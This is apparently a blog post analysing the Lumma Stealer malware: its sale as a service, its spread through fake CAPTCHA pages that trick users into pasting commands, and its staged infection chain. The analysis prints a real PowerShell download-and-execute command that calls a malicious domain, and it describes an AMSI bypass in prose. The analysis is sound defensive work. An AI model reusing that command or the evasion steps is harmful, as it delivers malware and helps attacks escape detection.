Lumma stealer

Introduction
Lumma stealer is a malware written in C and compiled using MinGW, designed to steal wide range of data from compromised systems. This malware also used as MaaS, gaining quite popularity among the cyber criminals as it target and steal data such as cryptocurrency wallets, financial data, personal data, sensitive files from user directories, web browser information and more by employing sophisticated techniques including event-controlled write operation and encryption to evade detection.
This malware is shared and sold on Telegram and dedicated websites. In this blog we will try to cover everything about malware.

History
Lumma Stealer, also known as LummaC2 Stealer, was first deteced in August 2022. It is believed that a threat actor known as Shamel operating under the alias "Lumma" developed the malware futhermore also offered malware through a subcription-based model on platforms like Telegram and dedicated websites. With pricing tiers ranging from $250 to $20,000, including options for scource code access.
Evolution of Distribution Methods
From Starting, it has evolved significantly, reflecting the adaptability of its operators. At first it was spread through traditinal methods such as creacked software, malicious downloads, and malicious websites posing as legitmate. By May 2023, they started atively promoting malware on telegram channels accumulating more than 1000 paid clients indicating a shift towards social media for distribution. Now, also in Feb 2023, they started a spear-phishing campaign targating Youtubers, impersonating a game company like Bandai Namco, using Dropbox links to deliver a malicious PDF that installed Lumma Stealer via a loader called Pure Crypter.
In 2024, again we can see operators creativity and versility with large-scale malvertising campaigns leveraging fake CAPTCHA pages, a tactic dubbed as DeceptionAds by Guardio Labs and Infoblox researchers. These campaigns, observed in October 2024, tricked users into executing PowerShell commands under the guise of verifying human identity, they increased their reach enormously across thousnds of websites via the Monetag ad network.
Current Status
ESET telemetry for the second half of 2024 registered the highest number of Lumma stealer attacks attempts, with large number are seen in countries like Peru, Poland, Mexico, Spain etc. In just six months malware detection rise over 2000% as per SpyCloud. As of February 2025, Lumma Stealer remains a potent threat, with continuous updates enhancing its evasion capabilities, such as binary morphing and low-level system interactions, making it a challenging adversary for cybersecurity defenses.

Analysis

The infection chain generally begins when the victim visits a malcious web site which redirect the user to a fake CAPTCHA page. Once the victim accesses the URL, a fake CAPTCHA is showed, inscructing them to perform a ordered steps which leads to execution of the next stage of the infection chain.
Lumma Stealer has been using a particular flavor of fake CAPTCHAs in its attack chain which intructs the victim to run some ordered commands to start the process. This fake CAPTCHAs are really well designed creative work which tricks the victims/users into downloading and executing malware outsite the browser. Downloading malware payloads from outside the browser serves an anti-analysis mechanism, evading browser-based cybersecurity controls.
In the fake CAPTCHA presents inscructions to open the Windows Run Window by pressing Windows+R, pasting the clipboard's content in the run window using CTRL+V, and then pressing ENTER to execute it. The heart of the attack lies in this hence sequence is essential for the succesful execution of the next stage, and it only works for the window enviroments.

Behind the scenes, the website code contains a JavaScript snippet that is responsible for adding the command to the clipboard. The command relies on native mshta.exe which is legitimate Windows utility used to execute the HTML Application(HTA) and embedded scripts, such as Javascript. Since it's a trusted and signed binary by microsft, it is a classic example of LOBLIN or "living of the land".

Once executed, the javascript code calls PowerShell to decode a base64 encoded chunk of data and execute it. The resulting code downloads and execute the next stage in the victim's machine.

"C:\Windows\SysWow64\WindowsPowerShell\v1.0\powershell.exe" -w hidden -ep bypass -nop -Command "iex ((New-Object System.Net.WebClient).DownloadString('https://h3.errantrefrainundocked.shop/riii2.aspx'))"
The next stage is a much bigger (>8MB), obfuscated PowerShell payload. Although it might look complex due to its size, it's rather starightforward.

At the start it deobfuscates a string via some mathematical operations and uses the resulting string as a key. In the analyzed samples, the decoded key was the string "AMSI_RESULT_NOT_DETECTED". This code defines a chunk of decimal values that are used later.
Next, it calls a function named “fdsjnh.” This function is responsible for converting a chunk of data into a string, decoding it using base64, and then performing a multi-byte XOR operation on it using the mentioned key. This operation results in another PowerShell script, which it executes using some other obfuscated variables.


Once executed, it attempts to evade Windows Antimalware Scan Interface (AMSI) by removing the string “AmsiScanBuffer” from the “clr.dll” module in memory to prevent it from being called. By doing so, the script prevents its final payload, which is loaded reflectively, from being scanned by AMSI. The AMSI bypass code appears to be a copy of an open source implementation.
The script then decodes a base64 encoded chunk of data, which results in a PE file and final step of the script is load and execute the decode PE using reflection


MITRE ATT&CK Tactics and Techniques


Lastly I have taken images from google and different blogs that i have studied from malpedia to provide as much as information for this blog. If they ask me remove any image, I might have to. If you want further and upto date information i suggest go and check out malpedia.